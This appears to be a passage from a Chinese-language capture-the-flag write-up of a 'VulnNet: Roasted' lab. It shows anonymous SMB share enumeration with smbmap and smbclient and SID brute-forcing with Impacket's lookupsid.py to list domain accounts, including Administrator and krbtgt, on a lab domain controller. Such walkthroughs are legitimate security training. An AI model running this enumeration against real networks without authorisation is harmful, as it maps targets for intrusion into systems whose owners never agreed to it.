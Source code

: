 ## 139/445 - SMB
```bash
root@ip-10-10-7-104:~/vulnnetroasted# smbmap.py -H 10.10.88.110 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com   
                     https://github.com/ShawnDEvans/smbmap

                                                                                                    
[+] IP: 10.10.88.110:445	Name: ip-10-10-88-110.eu-west-1.compute.internal	Status: Guest session   	
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	SYSVOL                                            	NO ACCESS	Logon server share 
	VulnNet-Business-Anonymous                        	READ ONLY	VulnNet Business Sharing
	VulnNet-Enterprise-Anonymous                      	READ ONLY	VulnNet Enterprise Sharing
```

枚举出两个共享文件以及一个 IPC$ 共享,使用 smbclient 访问这两个共享, 其实没有什么内容就是几个文本文件

```bash
root@ip-10-10-7-104:~/vulnnetroasted# smbclient -N //10.10.88.110/VulnNet-Business-Anonymous
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Mar 13 02:46:40 2021
  ..                                  D        0  Sat Mar 13 02:46:40 2021
  Business-Manager.txt                A      758  Fri Mar 12 01:24:34 2021
  Business-Sections.txt               A      654  Fri Mar 12 01:24:34 2021
  Business-Tracking.txt               A      471  Fri Mar 12 01:24:34 2021

		8771839 blocks of size 4096. 4523235 blocks available
```

因为开启了 SMB 的 IPC$ 共享, 所以我们可以尝试枚举用户

```bash
root@ip-10-10-7-104:~/vulnnetroasted/enum4linux-ng# lookupsid.py anonymous@10.10.88.110
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

Password:
[*] Brute forcing SIDs at 10.10.88.110
[*] StringBinding ncacn_np:10.10.88.110[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
....
```
